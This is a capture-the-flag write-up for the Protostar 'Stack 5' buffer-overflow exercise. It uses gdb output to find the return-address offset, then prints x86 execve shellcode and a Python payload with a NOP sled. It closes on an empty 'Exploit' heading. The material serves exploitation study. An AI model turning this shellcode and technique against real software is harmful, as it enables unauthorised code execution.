

# Stack 5


```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}

```

vulnerability :  usage of gets() function will lead to buffer overflow

goal: This time there isn't win function to jump to however this isn't a problem we can
inject our own code to obtain a shell 


## Static and Dynamic analysis :

Let's look at the assembly code with gdb  : 

```
(gdb) disas main
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0  <----- esp lowest byte is put to 0 so there will be some padding
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]   <---- 2) eax points on [esp+0x10] (this is where 'buffer' start)
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax  <--- 1) eax points on the content of 'buffer'
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret 
```

It looks a lot to the previous challenge ! 

With the static analysis we cannot know the padding that will be created by  <main+3>.

Like the previous challenge 'buffer' is 64 bytes.

Let's dig with the dynamic analysis : 


```asm

(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.
(gdb) b* 0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=1, argv=0xbffff874) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) x/25x $esp
0xbffff770:	0xbffff780	0xb7ec6165	0xbffff788	0xb7eada75
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7c0:	0x08048300	0x00000000	0xbffff848	0xb7eadc76
0xbffff7d0:	0x00000001
(gdb) x/x $ebp
0xbffff7c8:	0xbffff848

```
We need to add 3*4=12 bytes to overwrite the save ebp.

```asm
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBB

Breakpoint 1, main (argc=1, argv=0xbffff874) at stack5/stack5.c:11
11	in stack5/stack5.c
(gdb) x/25x $esp
0xbffff770:	0xbffff780	0xb7ec6165	0xbffff788	0xb7eada75
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7c0:	0x42424242	0x42424242	0x42424242	0xb7eadc00
0xbffff7d0:	0x00000001
(gdb) x/x $ebp
0xbffff7c8:	0x42424242


```

Ok so 4 more bytes and we control the save eip but where do we jump ??

Our goal is to inject our own code to execute a shell and since the stack is executable it is possible.

There are already many shellcode available, i use mine : [shellcode](https://github.com/jjeyanthan/shellcoding/blob/main/shell_without_priv_x86/shell.hex)

```hex
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80

```


Address outside and inside gdb are not the same due to some environnement variable, therefore we
need to add some nop instruction (opcode x90 ).


```


  |  |---------------------|
  |  |    SHELLCODE        |
  |  |                     |
  |  | bunch of  NOP \x90  |
  |  |                     |<---- 
  |  |---------------------|    |
  |  |                     |    |
  |  |       Seip          |    |
  |  |                     |-----
  |  |---------------------|
  |  |                     |
  |  |       Sebp          |   
  |  |                     |
  |  |---------------------|                                              
  |  |                     |         
  |  |       buffer        |           
  |  |                     |        
  |  |                     |                          
  |  |                     |                      
  |  |---------------------|     
  |  |       .....         |                      
  |  |---------------------|               
  v                                              

```
Let's make a simple payload to find in gdb where to jump : 

padding *(64+12)  +  address in the nop sled  + bunch of nop + shellcode 

We will simulate our payload with the following payload : 

```
>>> 'A'*76 + 'BBBB' + 'C'*50 + 'D'*30
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD

```
The 'C's (which is 0x43 in hex) represent the fake nop sled , let's find a random address in the 'C's. 


```
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.
(gdb) b *main+22
Breakpoint 2 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD

Breakpoint 2, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) x/20x $esp
0xbffff7cc:	0x42424242	0x43434343	0x43434343	0x43434343
0xbffff7dc:	0x43434343	0x43434343	0x43434343	0x43434343
0xbffff7ec:	0x43434343	0x43434343	0x43434343	0x43434343
0xbffff7fc:	0x43434343	0x44444343	0x44444444	0x44444444
0xbffff80c:	0x44444444	0x44444444	0x44444444	0x44444444


```

Let's jump at 0xbffff7dc ! 

So our payload will like this : 

```
shellcode=b'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80'
payload=b'A'*76 + b'\xdc\xf7\xff\xbf'   + b'\x90' *70 + shellcode
print(payload)

```


##  Exploit

